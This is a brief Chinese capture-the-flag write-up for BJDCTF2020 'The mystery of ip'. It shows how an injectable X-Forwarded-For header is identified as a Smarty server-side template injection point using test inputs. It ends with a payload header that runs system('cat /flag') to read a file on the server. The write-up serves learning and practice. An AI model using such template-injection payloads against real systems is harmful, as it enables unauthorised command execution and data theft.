 # \[BJDCTF2020]The mystery of ip

## \[BJDCTF2020]The mystery of ip

## 考点

* Smarty SSTI

## wp

flag.php回显了一个IP地址，抓包改XFF，一般这种大概率SSTI

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

输入`{{7*7}}`返回49，输入`a{*7*}b`返回ab，确认是Smarty SSTI

payload：`X-Forwarded-For: {{system("cat /flag")}}`
